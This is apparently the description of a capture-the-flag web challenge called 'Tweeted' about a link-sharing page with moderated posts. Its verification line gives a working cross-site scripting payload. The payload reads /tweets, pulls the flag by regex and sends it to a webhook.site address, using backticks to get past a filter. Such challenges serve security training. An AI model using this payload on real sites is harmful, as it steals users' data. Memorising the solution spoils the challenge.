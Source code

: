 - title: Tweeted
- description: I am building a small webpage to share interesting links with everyone. Last night we had some complaints about hackers, so I've put the app in lockdown mode and I am personally approving every new post. Can you figure out what happened?
- flag: see docker-compose.yml
- time to solve: ~30 minutes
- verifying challenge: example malicious url: "console.log(jQuery.get(`/tweets`,function(response){window.location=`https://webhook.site/0da86b21-132d-474f-a9e7-fed4c28cbb06?`+response.match(/CSCBE{.*}/)[0]}))" (backticks instead of usual quotes to avoid the filter). Use your own webhook.site instance.
- The source code of the `tweets` package is intended to be public.
